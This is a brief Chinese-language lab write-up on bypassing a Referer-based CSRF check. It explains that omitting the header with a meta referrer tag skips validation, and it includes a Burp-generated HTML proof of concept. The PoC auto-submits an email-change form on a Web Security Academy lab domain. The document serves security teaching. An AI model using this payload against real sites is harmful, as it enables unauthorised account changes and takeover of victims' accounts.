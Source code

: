某些应用程序在请求中存在Referer标头时会对其进行验证，但是如果省略标头，则会跳过验证。

在这种情况下，攻击者可以以某种方式设计其CSRF攻击，使受害者用户的浏览器在结果请求中删除Referer标头。有多种方法可以实现此目的，但最简单的方法是在承载CSRF攻击的HTML页面中使用META标签：

<meta name="referrer" content="never">



exp:

```javascript
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://ac7a1f0b1f7ff9ac8097253000580020.web-security-academy.net/email/change-email" method="POST">
     //移除referrer头，当头不存在时，程序不检测，从而实现绕过
     <meta name="referrer" content="no-referrer">
      <input type="hidden" name="email" value="14062&#64;qq&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```


